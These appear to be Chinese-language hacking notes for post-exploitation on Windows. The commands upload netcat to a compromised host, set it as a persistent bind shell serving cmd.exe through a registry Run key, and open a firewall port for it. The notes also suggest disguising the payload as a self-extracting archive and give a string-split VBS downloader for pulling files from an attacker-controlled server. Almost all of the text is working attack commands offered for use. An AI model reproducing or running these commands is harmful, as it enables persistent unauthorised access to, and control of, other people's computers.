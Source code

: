 ------

上传文件：

进入一个session中

upload /root/nc.exe c:\\

查看注册表里有什么内容

reg enumkey -k HKLM\software\microsoft\windows\currentversion\run

把nc放到自动启动里面

reg setval -k HKLM\software\microsoft\windows\currentversion\run -v nc -d ‘c:\nc.exe -Ldp 444 -e cmd.exe’

查看代码写的对不对
reg queryval -k HKLM\software\microsoft\windows\currentversion\run -v nc

查看防火墙状态

netsh firewall show opmode

**添加一个防火墙规则允许444端口通过**

netsh firewall add portopening TCP 444 “FireWall” ENABLE ALL

目标主机重启之后

nc -v [目标主机] 444

------

小知识：

注册表修改的内容可以在msconfig里查到

可以考虑使用自解压的方法进行伪装

------

kali启动apache

service apache2 start

apache的目录/var/www/html中

------

使用vbs去远程下载文件

创建a.vbs

```
set a=createobject("adod"+"b.stream"):set w=createobject("micr"+"osoft.xmlhttp"):w.open"get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2
```

cmd运行

cscript a.vbs http://自己服务器/a.txt c:\b.txt

也可以使用echo直接写
